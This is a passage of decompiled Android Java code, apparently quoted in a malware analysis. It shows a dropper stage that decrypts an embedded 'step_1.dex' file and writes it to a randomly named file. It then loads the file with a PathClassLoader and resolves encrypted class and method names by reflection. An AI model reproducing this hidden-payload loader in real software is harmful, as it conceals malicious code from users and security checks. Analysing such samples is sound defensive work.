 ```java=
                     this.b.p = var304;
                     var306 = this.b;
                     var7 = this.b.p;
                     var290 = UUID.randomUUID().toString();
                     var307 = new File(var306.getFilesDir(), var290);
                     var8 = var306.openFileInput("step_1.dex");
                     var303 = var306.openFileOutput(var290, 0);

                     
                     byte[] var9;
                     var9 = new byte[4096];

                     while(true) {
                        var3 = var8.read(var9);
                        if (var3 > 0) {
                           byte[] var295;
                           if (var3 == 4096) {
                              var295 = var7.update(var9);
                           } else {
                              var295 = var7.doFinal(var9, 0, var3);
                           }
                           var303.write(var295);
                        }
                     }
                                       
                     [...]

                     label2376: {
                        int var10;
                        String var305;
                        byte[] var312;
                        Method[] var313;
                        try {
                           CloseableKt.closeFinally(var303, (Throwable)null);
                           if (!var307.exists()) {
                              break label2376;
                           }

                           PathClassLoader var308 = new PathClassLoader(var307.getAbsolutePath(), var306.getClassLoader());
                           byte[] var310 = this.b.p.doFinal(Base64.decode("j04vGcW35ZUg23JsqQ+/YA==", 0));
                           var305 = new String(var310, Charsets.UTF_8);
                           var307.getClass().getMethod(var305).invoke(var307);
                           byte[] var309 = this.b.p.doFinal(Base64.decode("WOtre8ObMy2nnFbqn2Kb6w==", 0));
                           String var311 = new String(var309, Charsets.UTF_8);
                           var291 = var308.loadClass(var311).newInstance();
                           var312 = this.b.p.doFinal(Base64.decode("J9vFCBjTjE6YoMI1wVDwjg==", 0));
                           var290 = new String(var312, Charsets.UTF_8);
                           var313 = var291.getClass().getDeclaredMethods();
                           var10 = var313.length;
                        } catch (Exception var273) {
                           var10000 = var273;
                           var10001 = false;
                           break label2372;
                        }

                        for(var3 = 0; var3 < var10; ++var3) {
                           Method var315 = var313[var3];

                           boolean var11;
                           label2295: {
```